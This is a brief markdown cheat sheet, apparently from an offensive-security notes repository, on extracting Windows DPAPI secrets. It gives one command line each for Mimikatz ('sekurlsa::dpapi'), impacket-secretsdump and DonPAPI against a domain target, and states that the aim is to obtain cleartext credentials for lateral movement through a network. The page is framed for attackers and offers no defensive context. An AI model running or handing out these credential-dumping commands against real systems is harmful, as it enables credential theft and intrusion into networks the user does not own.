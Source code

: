 # Extract DPAPI

## Tools: Mimikatz , DonPAPI , impacket-secretsdump

#### 1) Mimikatz

 - mimikatz.exe "sekurlsa::dpapi"

#### 2) impacket-secretsdump

 - impacket-secretsdump DOMAIN/USER:PASSWORD@IP

#### 3) DonPAPI

 - DonPAPI.py DOMAIN/USER:PASSWORD@TARGET

### Dumping DPAPI will give us cleartext credentials so that we can laterally move within the network
